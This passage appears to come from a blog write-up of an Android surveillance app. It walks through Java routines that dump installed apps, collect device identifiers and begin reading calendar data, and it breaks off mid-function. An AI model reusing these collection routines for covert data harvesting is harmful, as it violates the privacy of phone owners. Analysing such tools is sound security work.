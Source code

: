 ### 2.2.5. Application List Dump
This operation does not require any special permission and only lists user-installed apps since there are many system-installed packages that are not of interest:

{% highlight java %}
private ArrayList<String> fetchApps() {
    ArrayList<String> apps = new ArrayList<>();
    List<PackageInfo> packList = getPackageManager().getInstalledPackages(0);
    for (int i = 0; i < packList.size(); i++) {
        PackageInfo packInfo = packList.get(i);
        if ((packInfo.applicationInfo.flags & ApplicationInfo.FLAG_SYSTEM) == 0) {
            String appName = packInfo.applicationInfo.loadLabel(getPackageManager()).toString();
            apps.add("\n ID=>" + i + "\n Application=>" + appName + "\n");
        }
    }
    return apps;
}
{% endhighlight %}

### 2.2.6. Device Information Retrieval
Similarily to app list dump with respect to additional permissions, this method returns some hardware and software information on the device itself:

{% highlight java %}
private ArrayList<String> deviceInfo() {
    ArrayList<String> info = new ArrayList<>();
    info.add("\n Serial=>" + Build.SERIAL + "\n");
    info.add("\n Model=>" + Build.MODEL + "\n");
    info.add("\n ID=>" + Build.ID + "\n");
    info.add("\n Manufacturer=>" + Build.MANUFACTURER + "\n");
    info.add("\n Brand=>" + Build.BRAND + "\n");
    info.add("\n Type=>" + Build.TYPE + "\n");
    info.add("\n User=>" + Build.USER + "\n");
    info.add("\n Base=>" + Build.VERSION_CODES.BASE + "\n");
    info.add("\n Incremental=>" + Build.VERSION.INCREMENTAL + "\n");
    info.add("\n SDK=>" + Build.VERSION.SDK + "\n");
    info.add("\n Board=>" + Build.BOARD + "\n");
    info.add("\n Host=>" + Build.HOST + "\n");
    info.add("\n Fingerprint=>" + Build.FINGERPRINT + "\n");
    info.add("\n Release=>" + Build.VERSION.RELEASE + "\n");
    return info;
}
{% endhighlight %}

### 2.2.7. Calendar Entries Dump
This capability requires the `READ_CALENDAR` permission and returns a list of calendars available on the phone:

{% highlight java %}
private ArrayList<String> fetchCalendar() {
    ArrayList<String> calendar = new ArrayList<>();
    if (ContextCompat.checkSelfPermission(getBaseContext(), "android.permission.READ_CALENDAR") == PackageManager.PERMISSION_GRANTED) {
        final Uri CALENDAR_URI = Uri.parse("content://com.android.calendar/calendars");
        ContentResolver contentResolver = getBaseContext().getContentResolver();
        final String[] FIELDS = {
                CalendarContract.Calendars.NAME,
                CalendarContract.Calendars.CALENDAR_DISPLAY_NAME,
                CalendarContract.Calendars.CALENDAR_COLOR,
                CalendarContract.Calendars.VISIBLE
        };

        Cursor cursor = contentResolver.query(CALENDAR_URI, FIELDS, null, null, null);
        try {